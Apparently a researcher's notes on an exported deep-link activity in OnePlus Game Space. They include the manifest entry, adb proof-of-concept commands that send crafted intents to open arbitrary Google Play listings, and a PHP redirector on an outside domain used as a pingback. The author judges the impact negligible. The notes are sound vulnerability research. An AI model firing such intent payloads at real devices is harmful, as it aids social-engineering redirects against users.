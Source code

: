 # Description

## com.oplus.games.ExternalJumpActivity

**TL;DR** I found ways to open arbitrary packages in Google Play. Also pingback to an arbitrary HTTP service is possible, but it can only be used to circle back to Google Play. I don’t really see any way forward here. Good effort though.

```xml
<activity android:theme="@android:style/Theme.Translucent.NoTitleBar.Fullscreen" android:name="com.oplus.games.ExternalJumpActivity" android:exported="true" android:screenOrientation="portrait">
	<intent-filter>
		<action android:name="android.intent.action.VIEW" />
		<category android:name="android.intent.category.DEFAULT" />
		<category android:name="android.intent.category.BROWSABLE" />
		<data android:scheme="app" android:host="com.oplus.games" android:pathPrefix="/jump" />
	</intent-filter>
</activity>
```

  This activity allows to open arbitrary apps in Google Play. It seems by design and I don’t see any impact in this behavior itself. Even if there isn’t a possibility to just do it directly with Google Play intents (or https links), best one can do is social engineering I guess.

Working payload to open Google Play for arbitrary app

```bash
adb shell am start -a android.intent.action.VIEW \
-d "app://com.oplus.games/jump?url=https%3a//play.googles.com/store/apps/details%3fid%3dpl.com.insert.gestormobile%26pcampaignid%3dweb_share%26_back_hand_%3dtest%26_source_stat_%3d{}" \
com.oneplus.gamespace
```

Here’s the payload that performs a pingback to an arbitrary HTTP service. It can be used to redirect(sic!) to an arbitrary Google Play package:

First, prepare a redirector:

```php
<?php
header("Location: market://details?id=pl.com.insert.gestormobile&referrer=", true, 301);
exit;
?>
```

Then run the PoC:

```bash

adb shell am start -a android.intent.action.VIEW \
-d "app://com.oplus.games/jump?url=https%3A%2F%2Ftellico.fun%2Foneplus.php%3Fonelink%3D1&pcampaignid=web_share&_back_hand_=test&_source_stat_={}" \
com.oneplus.gamespace
```

When working on it, I created and used [[root.research.frida.call-tracking]]